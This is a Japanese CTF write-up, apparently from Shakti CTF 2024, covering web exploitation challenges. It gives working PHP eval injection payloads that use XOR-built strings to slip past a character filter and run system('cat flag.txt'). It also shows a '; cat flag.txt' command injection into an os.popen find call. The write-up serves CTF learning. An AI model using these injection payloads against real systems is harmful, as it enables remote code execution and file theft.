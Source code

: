 このコードを chatgpt に入れると url パラメーターの command を eval で実行してることがわかる。eval を実行する前に filter で'/(`|\.|\$|\/|a|c|s|require|include)/i' が command に含まれていないか確認し、含まれている場合は command が実行されない。今回は使えない文字を生成するために文字同士の xor を利用した。

### ダメだったパターン

- system('cat flag.txt');を示す'101000MM100M0100L000MMM' ^ 'BIBDU]ejRQDmV]QWbDHDjdv';を command として送信
- system('ls');を表す'101000MM10MMM' ^ 'BIBDU]ej]Bjdv'の送信

ダメだった理由  
'101000MM10MMM' ^ 'BIBDU]ej]Bjdv'が実行されて system('ls');ていう文字列自体は生成されるものの文字列のため実行されない。再起的に生成された文字をコマンドとして扱うわけじゃない。

### 良いパターン

- print_r(file('flag.txt'));を表す print_r(file('0100L000' ^ 'V]QWbDHD'));を送信。文字の xor が先実行されそのあと file,print_r コマンドが実行される。再起的な構造になっていない。

- print_r(('system')('cat flag.txt')) を表す print_r(("111114"^"BHBETY")("111q1411w111"^"RPEQWXPVYEIE"))を送信。まず文字の xor が実行されて print_r(('system')('cat flag.txt'))形になる。このあと('system')('cat flag.txt')は system('cat flag.txt')として実行される（php の文法ぽい)

## 学び

- php インジェクションっていうものがあるらしい
- php インジェクションで使える文字を制限されてたら文字列の xor とか色々なコマンド調べるのが良い
- 文字列の xor で作られたものは文字列でコマンドとして実行されない
- ('a' ^ 'b')('c' ^ 'd')みたいな形で('command')('引数')を作ればコマンド名も xor で作れる
- このサイトが php インジェクションまとまっててよかった https://blog.hamayanhamayan.com/entry/2021/12/18/132236

# Find the flag

site: Shakti CTF  
contest: Shakti CTF 2024  
category: Web Exploitation

## 解き方

付属のファイルを読むとリクエストパラメータの test が os.popen(command)で実行されてる。command = f"find {test}"と定義されているため test に; cat flag.txt を入れると flag が得られる。

## 学び

特になし

# Ultimate spider man

site: Shakti CTF  
contest: Shakti CTF 2024  
category: Web Exploitation
